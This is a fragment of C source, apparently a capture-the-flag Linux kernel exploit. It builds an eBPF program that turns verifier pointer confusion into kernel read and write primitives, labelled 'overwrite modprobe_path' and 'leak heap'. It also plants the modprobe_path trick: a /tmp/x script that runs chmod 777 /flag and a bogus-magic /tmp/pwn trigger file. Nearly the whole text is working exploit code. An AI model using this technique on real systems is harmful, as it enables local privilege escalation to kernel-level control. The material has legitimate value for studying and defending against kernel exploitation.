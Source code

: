 ```c
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_0, -0x110), // r0 -= 0x110
    
    BPF_ALU64_REG(BPF_XOR, BPF_REG_0, BPF_REG_1), // r0 ^= r1
    BPF_ALU64_REG(BPF_XOR, BPF_REG_1, BPF_REG_0), // r1 ^= r0, r1 to scalar
    BPF_ALU64_IMM(BPF_XOR, BPF_REG_1, 0), // r1 to ptr

    BPF_LDX_MEM(BPF_DW, BPF_REG_3, BPF_REG_1, 0), // r3 = r1[0]
    BPF_STX_MEM(BPF_DW, BPF_REG_2, BPF_REG_3, 0), // r2[0] = r3
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),

    // ------------- 1. overwrite modprobe_path -------------
    BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_0, 0), // r2 = r0[0]
    BPF_JMP_IMM(BPF_JNE, BPF_REG_2, 1, 12),

    BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_0, 0x8), // r2 = r0[1]
    BPF_LDX_MEM(BPF_DW, BPF_REG_3, BPF_REG_0, 0x10), // r3 = r0[2]

    /* for r0 ^= r2 */
    BPF_MOV64_IMM(BPF_REG_4, 0x1),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_4, 48),
    BPF_JMP_REG(BPF_JLE, BPF_REG_2, BPF_REG_4, 2),
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
    BPF_ALU64_REG(BPF_XOR, BPF_REG_0, BPF_REG_2), // r0 ^= r2

    BPF_ALU64_IMM(BPF_XOR, BPF_REG_0, 0),
    BPF_STX_MEM(BPF_DW, BPF_REG_0, BPF_REG_3, 0), // *(r0 + 0) = r3
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),

    // ------------- 2. leak heap -------------
    BPF_MOV64_IMM(BPF_REG_1, 0), // r1 = 0
    BPF_ALU64_REG(BPF_XOR, BPF_REG_1, BPF_REG_0), // r1 ^= r0
    BPF_STX_MEM(BPF_DW, BPF_REG_0, BPF_REG_1, 0), // *(r0 + 0) = r1
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
};

int map_fd, prog_fd;
int socks[2];
const int key = 0;
uint64_t kern, heap;
char *mapbuf;
uint64_t *mapbuf_64;

void setup_modprobe_path()
{
    system("echo -ne '#!/bin/sh\n/bin/chmod 777 /flag\n' > /tmp/x");
    system("chmod +x /tmp/x");
    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/pwn");
    system("chmod +x /tmp/pwn");
}

void init_proc()
{
    setup_modprobe_path();
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    map_fd = bpf_create_map(BPF_MAP_TYPE_ARRAY, sizeof(int), 0x100, 1);
    prog_fd = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, insns,
                            sizeof(insns) / sizeof(insns[0]), "GPL");
    printf("map_fd: %d\nprog_fd: %d\n", map_fd, prog_fd);
```